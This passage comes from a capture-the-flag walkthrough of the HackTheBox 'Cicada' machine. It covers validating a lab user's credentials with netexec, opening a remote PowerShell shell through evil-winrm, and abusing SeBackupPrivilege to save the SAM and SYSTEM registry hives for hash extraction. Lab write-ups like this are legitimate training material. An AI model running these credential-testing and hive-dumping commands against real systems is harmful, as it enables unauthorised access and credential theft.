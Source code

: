 ### 3.9 Checking SMB and WinRM for Emily

``` bash
netexec smb 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
netexec winrm 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![netexec_emily](GitHubv2/HackTheBox/EASY/Cicada/screenshots/netexec_emily.png)

Successful.
### 3.10 Gaining Remote Shell with Evil-WinRM

**Note:** `evil-winrm` is a preferred tool for WinRM exploitation as it provides an interactive PowerShell prompt, supports file upload/download, and allows local script execution, which is very useful in post-exploitation.

We confirm that `emily.oscars` has WinRM access and open a remote PowerShell session:

``` bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![user_flag](GitHubv2/HackTheBox/EASY/Cicada/screenshots/user_flag.png)

We obtain an interactive shell on the target and retrieve the **user flag** from the desktop.

---

## 4. Privilege Escalation

### 4.1 Checking Current Privileges

**Note:** `SeBackupPrivilege` allows bypassing NTFS permissions by performing system backups. It can be abused to copy sensitive files like registry hives.

Once connected as `emily.oscars`, we check the assigned privileges:

``` bash
net user emily.oscars
whoami /priv
```

![emily_priv](GitHubv2/HackTheBox/EASY/Cicada/screenshots/emily_priv.png)

**Finding:**  
The account has the `SeBackupPrivilege` enabled and is a member of the **Backup Operators** group.  
This privilege allows us to back up system hives, which can be used to extract credential hashes.

---

### 4.2 Dumping SAM and SYSTEM Hives

We save the `SAM` and `SYSTEM` registry hives to a temporary directory on the target:

``` bash
reg save hklm\sam C:\temp\sam.hive 
reg save hklm\system C:\temp\system.hive
```
